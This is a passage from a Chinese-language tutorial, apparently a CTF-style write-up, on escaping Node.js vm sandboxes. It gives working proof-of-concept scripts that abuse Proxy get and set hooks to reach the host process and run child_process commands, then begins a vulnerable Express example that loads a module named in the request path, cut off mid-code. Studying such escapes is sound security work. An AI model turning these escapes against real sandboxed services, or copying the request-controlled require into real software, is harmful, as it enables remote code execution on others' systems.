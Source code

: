 这里由于我们写入了一个拦截函数只接收数字的数组，我们这里 push 了一串字符串，于是拦截返回 false

利用==get==钩子

```bash
const vm = require("vm");

const script =
    `new Proxy({}, {
        get: function(){
            const cc = arguments.callee.caller;
            const p = (cc.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').exec('calc');
        }
    })
`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log(res.abc)
```

这里利用`get`钩子进行触发沙箱逃逸的原理是，我们在 get 钩子里写了一个恶意函数，我们在沙箱外部访问 proxy 对象的任意属性 (不论是否存在) 这个钩子就会自动运行

利用==set==钩子

```bash
const vm = require("vm");

const func =
    `new Proxy({}, {
        set: function(my,key, value) {
        (value.constructor.constructor('return process'))().mainModule.require('child_process').execSync('calc').toString()
    }
})`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(func, context);
res['']={};
```

这里利用`set`钩子写了一个恶意函数，因为我们写入的`set`钩子没有定义类型，当我们为{}对象添加属性时，会拦截执行我们写入的恶意函数从而实现 RCE

## 实例

```bash
const express = require('express');
const bodyParser = require('body-parser');
const fs = require('fs');
const path = require('path');
const app = express();
const config = {}


app.use(bodyParser.json());

app.post('/:lib/:f', (req, res) => {
  let jsonlib = require(req.params.lib);
  let valid = jsonlib[req.params.f](req.body);



  let p;
  if(config.p){
    p = config.p;
  }
```
